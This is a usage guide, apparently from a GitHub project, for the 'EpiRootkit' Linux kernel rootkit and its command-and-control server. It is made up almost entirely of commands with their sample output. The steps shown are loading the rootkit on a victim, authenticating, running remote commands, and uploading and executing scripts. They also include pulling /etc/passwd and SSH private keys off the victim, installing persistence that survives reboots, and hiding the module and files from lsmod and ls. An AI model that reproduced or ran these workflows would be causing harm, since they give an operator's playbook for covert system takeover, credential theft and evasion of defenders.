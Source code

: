 ```yaml
---
title: "Usage Guide"
description: "Comprehensive usage scenarios and workflows"
icon: "menu_book"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 304
---
```


# Usage Guide

Complete workflows for the EpiRootkit C2 server.

## Quick Start

### 1. Start C2 Server
```bash
cd attacking_program
pnpm start
# ✓ Server started on port 4444
# ✓ Web interface started on port 3000
```

### 2. Install Rootkit (Victim)
```bash
sudo insmod epirootkit.ko
# C2 server shows: ✓ Client-1 Connected
```

### 3. Authenticate
```bash
auth Client-1 password
# ✓ [2025-05-25 16:13:30] Authenticated
# SUCCESS: Authentication successful
```

## Basic Workflows

### Client Management
```bash
# List clients
ls
# • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
# • Client-2 - UNAUTHENTICATED - Last seen: 6:10:15 PM

# Check status
status Client-1
# EpiRootkit Status:
# Version: 1.0.0
# Authentication: YES
# Module Hidden: YES
# Persistence: ENABLED

# Monitor connection
keepalive Client-1
# Last ping: 2025-05-25 16:14:00
# Connection: STABLE
```

### Command Execution
```bash
# System reconnaissance
exec Client-1 whoami
# Exit code: 0
# Output: root

exec Client-1 uname -a
# Linux victim 5.4.0-74-generic #83-Ubuntu x86_64 GNU/Linux

exec Client-1 ps aux | head -5
# USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
# root         1  0.0  0.1 225468  9876 ?        Ss   15:00   0:01 /sbin/init

# Network information
exec Client-1 ip addr show
exec Client-1 netstat -tuln
```

### File Transfer
```bash
# Upload files
upload Client-1 ./script.sh /tmp/script.sh
# ✓ File uploaded successfully (512 bytes)

exec Client-1 chmod +x /tmp/script.sh
exec Client-1 /tmp/script.sh

# Download files
download Client-1 /etc/passwd ./passwd
# ✓ File downloaded successfully (2048 bytes)

download Client-1 /home/user/.ssh/id_rsa ./keys/
# ✓ File downloaded successfully (1679 bytes)
```

## Advanced Workflows

### Persistence Setup
```bash
# Install all persistence mechanisms
persist Client-1 install
# SUCCESS: All persistence mechanisms installed

# Test persistence (victim reboots)
exec Client-1 reboot
# Wait for reconnection...

ls
# • Client-1 - UNAUTHENTICATED - Last seen: Just now

auth Client-1 password
status Client-1
# Persistence: ENABLED (survived reboot)
```

### Stealth Operations
```bash
# Check current stealth status
status Client-1
# Module Hidden: YES
# File Hiding: YES

# Test module hiding
exec Client-1 lsmod | grep epirootkit
# (no output - module hidden)

# Test file hiding
exec Client-1 touch /tmp/epirootkit_test
exec Client-1 ls /tmp/ | grep epirootkit
# (no output - file hidden)

# But file still accessible
exec Client-1 cat /tmp/epirootkit_test
# (works normally)
```

### Configuration Management
```bash
# Interactive configuration
config Client-1
# ┌─ Configuration - Client-1
#   [X] Module Hiding (Click to disable)
#   [X] File Hiding (Click to disable)
#   [X] Persistence (Click to disable)

# Direct commands
hide_module Client-1
# SUCCESS: Module hidden

unhide_module Client-1
# SUCCESS: Module visible

hide_files Client-1
# SUCCESS: File hiding enabled
```